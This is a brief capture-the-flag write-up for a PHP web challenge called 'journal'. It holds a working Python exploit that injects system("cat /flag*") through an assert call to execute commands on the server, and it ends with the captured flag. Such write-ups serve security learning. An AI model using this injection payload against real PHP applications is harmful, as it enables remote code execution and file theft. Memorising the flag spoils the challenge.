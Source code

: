 https://ctftime.org/event/2396

# journal (web)

one file php challenge

## Solution

At first i thought there was some include path stuff.
But after trying every byte there were some interesting messages about assert.
And its apparently well known:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp

```python
import requests

payload = "file1.txt' and die(system(\"cat /flag*\")) or '"
res = requests.get("http://journal.chal.imaginaryctf.org/", params={"file":payload})
print(f"DEBUGPRINT[1]: go.py:14: res.text={res.text}")
```

## Flag
`ictf{assertion_failed_e3106922feb13b10}`

shafouz 2024/07/21
